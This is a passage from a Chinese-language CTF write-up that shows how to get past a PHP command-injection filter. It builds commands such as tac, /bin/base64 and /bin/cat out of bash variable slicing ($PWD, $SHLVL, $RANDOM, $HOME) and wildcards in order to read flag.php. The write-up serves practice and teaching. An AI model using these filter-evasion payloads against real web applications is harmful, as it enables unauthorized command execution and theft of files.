 ![image-20250224205132375](assets/image-20250224205132375.png)

可以发现`PHP_CFLAGS`中有`tac`，而且在第三位，而恰巧`PHP_VERSION`里面有3，于是可以尝试构造:

```
${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}      ------>3
${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}}      ------>tac
payload：
${PHP_CFLAGS:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}:${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}} ????.???
```

- 题目给的payload：

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

- 网上查的：

介绍一个内置变量：`$RANDOM`

它会生成一个随机数，长度一般是 4 位或者 5 位，在前面加井号的话我们可以得到 4 或者 5 。

那么我们就可以构造出 /bin/base64 去读取 flag.php，主要就是构造出 / 和 4，其他使用通配符。

构造 /bin/base64 flag.php，payload：

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

其中`${PWD::${#SHLVL}}` 就等同于斜杠 /，由于`${#RANDOM}` 的值可能是 4 或者 5 ，所以可能需要多试几次

得到结果进行base64解码即可拿到flag

---

还有一种方法，在bin目录下是有cat命令的，我们可以尝试构造：

```
${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   t
```

构造payload：

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

拿到flag



